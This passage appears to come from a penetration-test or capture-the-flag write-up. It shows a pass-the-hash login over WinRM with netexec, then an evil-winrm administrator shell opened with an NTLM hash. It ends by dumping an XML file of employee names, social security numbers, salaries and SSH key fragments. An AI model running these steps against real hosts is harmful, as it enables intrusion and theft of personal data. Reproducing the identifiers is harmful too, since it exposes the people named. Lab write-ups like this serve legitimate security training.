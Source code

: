 ```bash
netexec winrm 10.10.10.100 -u Administrator -H 3d15cb1141d579823f8bb08f1f23e316
```

**Result:** Authentication successful with WinRM access



## Domain Administrator Access

### Remote Shell Establishment

```bash
evil-winrm -i 10.10.10.100 -u Administrator -H 3d15cb1141d579823f8bb08f1f23e316
```

Successfully obtained domain administrator shell.

### Sensitive Data Extraction

**File:** `secret.xml.txt`

**Contents:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Employees>
  <!-- PROTECTED: Contains sensitive employee information - RESTRICT ACCESS -->
  <Employee security-clearance="confidential">
    <ID>E-4281</ID>
    <FullName>Christopher A. Whitaker</FullName>
    <GovernmentID type="SSN">550-12-8421</GovernmentID>
    <Position>Lead Security Architect</Position>
    <Compensation>
      <BaseSalary currency="USD">142000</BaseSalary>
      <Bonus eligibility="true">15000</Bonus>
    </Compensation>
    <AccessCredentials>
      <SSHKeys>
        <RSA-4096>
          <Fingerprint>SHA256:zT4Gp2K9...V3jH91</Fingerprint>
          <PublicKey>ssh-rsa AAAAB3Nza...9Px8= secure-shell@corp</PublicKey>
        </RSA-4096>
      </SSHKeys>
    </AccessCredentials>
  </Employee>
  
  <Employee security-clearance="restricted">
    <ID>E-9173</ID>
    <FullName>Danielle M. Chen</FullName>
    <GovernmentID type="SSN">367-88-4102</GovernmentID>
    <Position>Director of Engineering</Position>
    <Compensation>
      <BaseSalary currency="USD">189500</BaseSalary>
      <Equity>2500</Equity>
    </Compensation>
  </Employee>
</Employees>
```
